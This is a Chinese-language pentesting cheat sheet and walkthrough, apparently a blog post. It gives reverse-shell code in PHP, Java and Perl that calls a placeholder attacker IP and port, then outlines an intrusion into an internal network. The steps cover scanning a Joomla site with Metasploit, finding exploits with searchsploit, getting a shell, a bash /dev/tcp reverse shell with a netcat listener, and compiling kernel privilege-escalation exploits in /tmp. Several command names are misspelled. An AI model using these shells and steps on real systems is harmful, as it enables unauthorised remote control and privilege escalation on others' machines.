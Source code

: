 ### php反弹shell

```php
$sock=fsockopen("攻击机IP",监听端口);
exec("/bin/sh -i <&3 >&3 2>&3");
```

### java反弹shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/攻击机ip/监听端口;cat <&5 | while read line;do $line 2>&5>&5;done"] as String[])
p.waitFor()

```

### perl 反弹shell

```perl
use Socket;
$i="攻击机IP地址";
$p=监听端口号;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
(open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("/bin/sh -i");
};
```

perl和python绝大多数服务器都会装，所以很有用

以某次内网渗透为实例

## 横向渗透预备工作

![](https://storage.tttang.com/media/attachment/2022/10/29/1636427f-bf91-4ce2-98da-c3c39213063f.png)假设是如上拓扑图。先无视防火墙，内网机器无法直接访问外网，必须要走边界机。

### 获得低权限shell

* 在网站信息搜集看到是joomla模板
* msf里search joomla **查看** 辅助模块auxiliar里的**扫描脚本**：`auxiliary/scannner/http/joomla_version`
* use脚本设置rhost参数，然后expolit运行可以看到网站版本。`expolit -j -z`挂后台
* `searchsplopit joomla 版本`**寻找exp**，最好是在exploit.db找，这里图个方便
* 把脚本copy到msf的exploits/multi/php目录下，然后reload
* use exp脚本，set rhost\rport参数和lhost\lport参数，set payload为reverse或者bind，exploit运行

目前获得了低权限shell，sessions进入shell

### 提权

* `uname -a`查看系统信息
* gcc --version看到有gcc，就找c语言的脚本。另起一个终端`nc --lvvp 端口`监听新端口
* shell里`bash -i >& /dev/tcp/xx.xx.xx.xx/端口 0>&1`反弹shell
* `searchspolit  linux kernel 内核版本 --exclute="(PoC)|/dos/"`搜索本地提权脚本。除去Poc和dos，就剩本地脚本了。同理，也可以在expolit.db上找
* 上传脚本，但是靶机的网站根目录不可写(很少见)，写到/tmp目录
* `gcc -o 输出文件名 脚本名`编译，`./文件名`运行。不行就换脚本，脚本里有使用方法，事先看一下
